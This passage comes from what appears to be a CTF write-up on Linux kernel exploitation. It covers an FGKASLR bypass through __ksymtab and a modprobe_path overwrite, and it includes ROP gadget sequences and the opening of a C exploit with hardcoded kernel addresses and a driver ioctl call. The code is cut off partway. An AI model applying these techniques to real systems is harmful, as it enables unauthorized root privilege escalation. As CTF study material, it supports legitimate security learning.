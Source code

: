 Next, let's assume we cannot obtain the addresses of the `commit` and `prepare` functions in their respective segments. According to the implementation of FGKASLR, we can use `readelf --section-headers -W vmlinux | grep -vE 'ax'` to see which sections do not undergo additional offsets. We can observe a `__ksymtab` section, which stores the offset from the current address to the symbol, and its offset to the kernel base address is fixed.

We can achieve this using similar gadgets:

```assembly
push rax; ret;
__ksymtab_commit_creds - 0x10;
mov rax, [rax + 0x10];
push rdi; ret;
__ksymtab_commit_creds;
add rdi, rax;
; RDI is commit_creds now
```

However, in this problem, I found that the vmlinux stores not offsets but direct addresses. A ksymtab should have three ints but only has two, not sure if it's an issue with IDA or something else. The vmlinux.stripped restored using vmlinux-to-elf does not have this symbol, so it is temporarily shelved.

#### Method 0x3 - modprobe_path

The third approach involves exploiting `modprobe_path`, a variable in the kernel located in the .data section. When executing a program with an unknown file header, it goes through `do_execve()` and eventually calls `call_modprobe`, using the file at `modprobe_path` to execute the program with root privileges. Thus, we only need to overwrite `modprobe_path`.

First, obtain the address of `modprobe_path`. I couldn't find the symbol table, but you can directly search the memory for "/sbin/modprobe" to locate it. After returning to user mode, create a malicious program, ~~such as one that generates a shell with the suid bit set~~. It seems that doing so does not provide the root user with the PATH environment variable, so it might be better to directly copy the flag.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <signal.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>

#define POP_RAX_RET 0xffffffff810520cf
#define MOV_PTR_RBX_RAX_POP_RBX_RET 0xffffffff8101e5e1
#define POP_RBX_RET 0xffffffff81000472
#define MODPROBE_PATH 0xffffffff8223d8c0
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81a008f0

#pragma clang diagnostic ignored "-Wconversion"  // makes me happy

size_t user_cs, user_ss, user_rflags, user_sp;
size_t swapgs_restore_regs_and_return_to_usermode;
void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;");
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

void core_read(int fd, char* buf) {
    ioctl(fd, 0x6677889B, buf);
```